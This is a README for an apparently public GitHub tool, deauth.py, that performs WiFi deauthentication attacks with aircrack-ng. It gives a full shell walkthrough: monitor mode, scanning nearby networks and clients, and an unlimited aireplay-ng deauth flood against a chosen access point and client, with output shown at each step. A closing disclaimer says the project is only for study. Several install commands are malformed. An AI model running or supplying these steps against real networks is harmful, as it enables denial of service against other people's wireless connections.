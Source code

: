 [![GitHub issues](https://img.shields.io/github/issues/voltwu/WIFI-Deauthentication-Attack.svg)](https://github.com/voltwu/WIFI-Deauthentication-Attack/issues)
[![GitHub forks](https://img.shields.io/github/forks/voltwu/WIFI-Deauthentication-Attack.svg)](https://github.com/voltwu/WIFI-Deauthentication-Attack/network)
[![GitHub stars](https://img.shields.io/github/stars/voltwu/WIFI-Deauthentication-Attack.svg)](https://github.com/voltwu/WIFI-Deauthentication-Attack/stargazers)

# Introduction
Wifi deauthentication attack allows attackers to send frames from an access point to a station,even though the attack is not in the network.

Actually, send deauthentication frame is a normal functionality on all routers, almost all routers need to send special frames to inform rogue station to get out of network.

# Requirement
1. aircrack-ng
    ```
    su apt-get install aircrack-ng
    ```
    
2. ifconfig
    ```
    su apt-get install net-tools
    ```

3. iwconfig
    ```
    su sudo apt install wireless-tools
    ```

4. mac_address.csv

    the *mac_address.csv* contains OUI(Orgnazition Unique identifier)s and corresponds company names. first column is OUI and second column is Company.
    
    format:
    ```
    oui,company
    xx:xx:xx,xxx
    xx:xx:xx:x,xxx
    ```
    
    I downloaded *mac_address.csv* from [https://macaddress.io/database/macaddress.io-db.csv](https://macaddress.io/database/macaddress.io-db.csv), edit the file to only contain *oui* and *company* column,rename the file to *macaddress.csv*. then move the *macaddress.csv* file into the same directory as *deauth.py*.
    

# The Core Concept

This project completely builds on `aircrack-ng` package. below is core steps how to pose a deauthentication attack on the shell.

1. check the wireless interface name

    ```
    iwconfig
    ```
    **output:**
    ```
    eth0      no wireless extensions.
    wlan0     IEEE 802.11  ESSID:"Tenda_5A1D80"  
              Mode:Managed  Frequency:2.427 GHz  Access Point: B4:0F:3B:5A:1D:81   
              Bit Rate=135 Mb/s   Tx-Power=22 dBm   
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Encryption key:off
              Power Management:on
              Link Quality=50/70  Signal level=-60 dBm  
              Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
              Tx excessive retries:0  Invalid misc:25   Missed beacon:0
    lo        no wireless extensions.
    ```

2. put wireless interface into monitor mode

    ```
    airmon-ng start wlan0
    ```
    **output:**
    ```
    Found 3 processes that could cause trouble.
    Kill them using 'airmon-ng check kill' before putting
    the card in monitor mode, they will interfere by changing channels
    and sometimes putting the interface back in managed mode
      PID Name
      501 NetworkManager
      598 wpa_supplicant
      643 dhclient
    PHY	Interface	Driver		Chipset
    phy0	wlan0		iwlwifi		Intel Corporation Wireless 3165 (rev 79)
    		(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
	    	(mac80211 station mode vif disabled for [phy0]wlan0)
    ```

3. check the wireless interface name again

    Normally, the step2 will change the wireless interface's name. in the majority of cases, it will append `mon` on the previous name's end.
    ```
    iwconfig
    ```
    **output:**
    ```
    wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=0 dBm   
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
    eth0      no wireless extensions.
    lo        no wireless extensions.
    ```

4. sniff data on traffics
    ```
    airodump-ng wlan0mon
    ```
    **output:**
    ```
    CH  4 ][ Elapsed: 0 s ][ 2019-12-27 07:47                                         
    BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    B4:0F:3B:5A:1D:81  -56        3        0    0   4  270  WPA2 CCMP   PSK  Tenda_5A1D80
    FC:7C:02:3E:9C:33  -79        3        0    0   3  130  WPA2 CCMP   PSK  ChinaNet-YhfA
    94:D9:B3:01:99:32  -79        1        0    0   1  270  WPA2 CCMP   PSK  TP-LINK_9932
    BSSID              STATION            PWR   Rate    Lost    Frames  Probe
    B4:0F:3B:5A:1D:81  88:78:73:D9:D4:BF  -34    0 - 6e     0        1
    94:D9:B3:01:99:32  1C:C3:EB:26:25:45  -81    0 - 1      0        2
    FC:7C:02:3E:9C:33  5C:CF:7F:33:56:78  -81    0 - 1      0        4
    ```


5. sniff data on specific network traffic

    ```
    airodump-ng -d B4:0F:3B:5A:1D:81 -c 4 wlan0mon
    ```
    **output:**
    ```
    CH  4 ][ Elapsed: 0 s ][ 2019-12-27 07:52                                         
    BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    B4:0F:3B:5A:1D:81  -51   0       11      117    0   4  270  WPA2 CCMP   PSK  Tenda_5A1D80
    BSSID              STATION            PWR   Rate    Lost    Frames  Probe   
    B4:0F:3B:5A:1D:81  78:0F:77:89:FD:58   -1   54 - 0      0        2 
    B4:0F:3B:5A:1D:81  E0:37:BF:C7:11:F3  -70    0 -24e     0        3   
    B4:0F:3B:5A:1D:81  74:B5:87:DB:84:5F  -68    0e-36      0       20       
    B4:0F:3B:5A:1D:81  88:78:73:D9:D4:BF  -34    0 - 1e     0      109       
    ```

6. send deauthentication frames

    ```
    aireplay-ng --deauth 0 -a B4:0F:3B:5A:1D:81 -c 78:0F:77:89:FD:58 wlan0mon
    ```
    **output:**
    ```
    07:54:33  Waiting for beacon frame (BSSID: B4:0F:3B:5A:1D:81) on channel 4
    07:54:34  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|55 ACKs]
    07:54:34  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|59 ACKs]
    07:54:35  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|59 ACKs]
    07:54:35  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 1|53 ACKs]
    07:54:36  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|51 ACKs]
    07:54:37  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|56 ACKs]
    07:54:37  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|53 ACKs]
    07:54:38  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|53 ACKs]
    07:54:38  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 0|53 ACKs]
    07:54:39  Sending 64 directed DeAuth (code 7). STMAC: [78:0F:77:89:FD:58] [ 2|54 ACKs]
    ```

# How to use deauth.py
1. download deauth

    ```
    su apt-get wget https://codeload.github.com/voltwu/WIFI-Deauthentication-Attack/zip/master
    ```
2. unzip it
    ```
    unzip WIFI-Deauthentication-Attack-master.zip
    ```
    
3. run it with python3.x

    ```
    python3 deauth.py
    ```

# Disclaimer
Don't use this project to do any illegal things. it's only used for the study. responsibilities arising from the use of this project have nothing to do with the author.


